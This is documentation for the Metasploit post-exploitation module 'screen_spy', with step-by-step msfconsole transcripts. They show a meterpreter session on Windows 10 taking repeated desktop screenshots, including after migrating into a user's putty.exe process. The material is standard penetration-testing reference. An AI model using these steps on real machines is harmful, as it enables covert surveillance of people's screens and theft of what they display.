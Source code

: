 ## Vulnerable Application

This module will incrementally take desktop screenshots from the
host. This allows for screen spying which can be useful to determine
if there is an active user on a machine, or to record the screen for
later data extraction.

Note: As of March, 2014, the `VIEW_CMD` option
has been removed in favor of the Boolean `VIEW_SCREENSHOTS` option,
which will control if (but not how) the collected screenshots will
be viewed from the Metasploit interface.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: `use post/windows/gather/screen_spy`
  4. Do: `set SESSION <session id>`
  5. Do: `run`

## Options

### RECORD
If set to true, record all screenshots to disk by saving them to loot.

### PID
PID to migrate into before taking the screenshots. If no PID is specified, default to current PID.

## Scenarios

### Windows 10 20H2 (No Database Connected But RECORD Flag Set)
```
msf6 exploit(multi/handler) > use post/windows/gather/screen_spy
msf6 post(windows/gather/screen_spy) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/screen_spy) > show options

Module options (post/windows/gather/screen_spy):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   COUNT             6                yes       Number of screenshots to collect
   DELAY             5                yes       Interval between screenshots in seconds
   PID                                no        PID to migrate into before taking the screenshots
   RECORD            true             yes       Record all screenshots to disk by saving them to loot
   SESSION           1                yes       The session to run this module on.
   VIEW_SCREENSHOTS  false            no        View screenshots automatically

msf6 post(windows/gather/screen_spy) > set SESSION 2
SESSION => 2
msf6 post(windows/gather/screen_spy) > run

[*] Capturing 6 screenshots with a delay of 5 seconds
[-] RECORD flag specified however the database is not connected, so no loot can be stored!
[*] Post module execution completed
```

### Windows 10 20H2 (No Database Connected, RECORD flag not set)
```
msf6 exploit(multi/handler) > use post/windows/gather/screen_spy
msf6 post(windows/gather/screen_spy) > set SESSION 2
SESSION => 2
msf6 post(windows/gather/screen_spy) > set RECORD false
RECORD => false
msf6 post(windows/gather/screen_spy) > set VIEW_SCREENSHOTS true
VIEW_SCREENSHOTS => true
msf6 post(windows/gather/screen_spy) > show options

Module options (post/windows/gather/screen_spy):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   COUNT             6                yes       Number of screenshots to collect
   DELAY             5                yes       Interval between screenshots in seconds
   PID                                no        PID to migrate into before taking the screenshots
   RECORD            false            yes       Record all screenshots to disk by saving them to loot
   SESSION           2                yes       The session to run this module on.
   VIEW_SCREENSHOTS  true             no        View screenshots automatically

msf6 post(windows/gather/screen_spy) > run

[*] Capturing 6 screenshots with a delay of 5 seconds
[*] Screen Spying Complete
[*] Post module execution completed
msf6 post(windows/gather/screen_spy) >
```

### Windows 10 20H2 (No Database Connected, RECORD flag not set, PID set to Process to Migrate To)
```
msf6 exploit(multi/handler) > use post/windows/gather/screen_spy
msf6 post(windows/gather/screen_spy) > set SESSION 2
SESSION => 2
msf6 post(windows/gather/screen_spy) > set RECORD false
RECORD => false
msf6 post(windows/gather/screen_spy) > set VIEW_SCREENSHOTS true
VIEW_SCREENSHOTS => true

msf6 post(windows/gather/screen_spy) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > ps -aux

Process List
============

 PID    PPID   Name                   Arch  Session  User                  Path
 ---    ----   ----                   ----  -------  ----                  ----
.....
 8236   1288   taskhostw.exe
 8296   760    svchost.exe
 8424   888    RuntimeBroker.exe      x64   2        DESKTOP-KUO5CML\test  C:\Windows\System32\RuntimeBroker.exe
 8572   3340   MeSuAx.exe
 8636   760    svchost.exe
 8664   8036   putty.exe              x64   2        DESKTOP-KUO5CML\test  C:\Program Files\PuTTY\putty.exe
.....

meterpreter > background
[*] Backgrounding session 2...
msf6 post(windows/gather/screen_spy) > set PID 8664
PID => 8664
msf6 post(windows/gather/screen_spy) > run

[+] Migration successful
[*] Capturing 6 screenshots with a delay of 5 seconds
[*] Screen Spying Complete
[*] Post module execution completed
msf6 post(windows/gather/screen_spy) >
```

### Windows 10 20H2 (Database Connected, RECORD flag set)
```

```

